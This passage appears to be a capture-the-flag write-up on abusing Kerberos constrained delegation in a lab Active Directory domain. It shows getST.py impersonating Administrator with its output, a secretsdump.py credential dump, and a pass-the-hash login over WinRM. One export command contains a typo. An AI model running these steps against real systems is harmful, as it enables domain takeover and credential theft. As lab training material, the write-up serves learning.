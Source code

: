 - [Theory and exploiting](https://www.thehacker.recipes/a-d/movement/kerberos/delegations/constrained)

- [Right Usage](https://wadcoms.github.io/wadcoms/Impacket-getST-Creds/)

First link explain the theory and the relative exploitation via __"getST.py"__, the second link has better explanation for the usage.

So we can use the following command:
```bash
getST.py -spn oakley/DC.COOCTUS.CORP  -dc-ip 10.10.94.232  -impersonate Administrator COOCTUS/password-reset:REDACTED

[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

_We have the .ccache file, we must save in __"KRB5CCNAME"__ and use it:_
```bash
export KRB5CCNAME = Administrator.cchace

secretsdump.py -k DC.COOCTUS.CORP
```
We can dump the Administrator's NTLM hash and use it to enter via winrm and retrieve all flags that are in \Shares and \PerfLogs folder.
